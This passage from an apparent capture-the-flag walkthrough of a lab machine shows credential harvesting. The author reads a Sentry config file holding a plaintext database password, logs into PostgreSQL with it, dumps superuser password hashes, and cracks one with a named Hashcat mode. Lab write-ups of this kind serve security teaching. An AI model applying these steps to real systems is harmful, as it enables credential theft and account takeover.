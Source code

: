     
    
    sentry=> select id,username,password,is_superuser from auth_user;
    ERROR:  permission denied for relation auth_user
    

Looking in `/etc`, there’s a config file for Sentry at
`/etc/sentry/sentry.conf.py`, and it has connection information for a
different user:

    
    
    ...[snip]...
    DATABASES = {                                       
        'default': {
            'ENGINE': 'sentry.db.postgres',
            'NAME': 'sentry',                           
            'USER': 'sentry',
            'PASSWORD': 'SentryPassword2021',
            'HOST': 'localhost',
            'PORT': '',
        }     
    }
    ...[snip]...
    

On connecting, judging by the prompt this user is elevated:

    
    
    www-data@developer:/etc/sentry$ psql postgresql://sentry:SentryPassword2021@localhost:5432/sentry  
    psql (9.6.22)
    SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
    Type "help" for help.
    
    sentry=#
    

There are two users:

    
    
    sentry=# select id,username,password,is_superuser from auth_user;
     id |      username       |                                   password                                    | is_superuser 
    ----+---------------------+-------------------------------------------------------------------------------+--------------
      1 | karl@developer.htb  | pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI= | t
      5 | jacob@developer.htb | pbkdf2_sha256$12000$MqrMlEjmKEQD$MeYgWqZffc6tBixWGwXX2NTf/0jIG42ofI+W3vcUKts= | t
    (2 rows)
    

I already have the password for jacob, but karl is one of the users on the
box!

### Crack Hashes

The hash for karl matches the format of [Hashcat
mode](https://hashcat.net/wiki/doku.php?id=example_hashes) 10000, “Django
(PBKDF2-SHA256)”. It cracks in about a minute giving a password of
“insaneclownposse”:
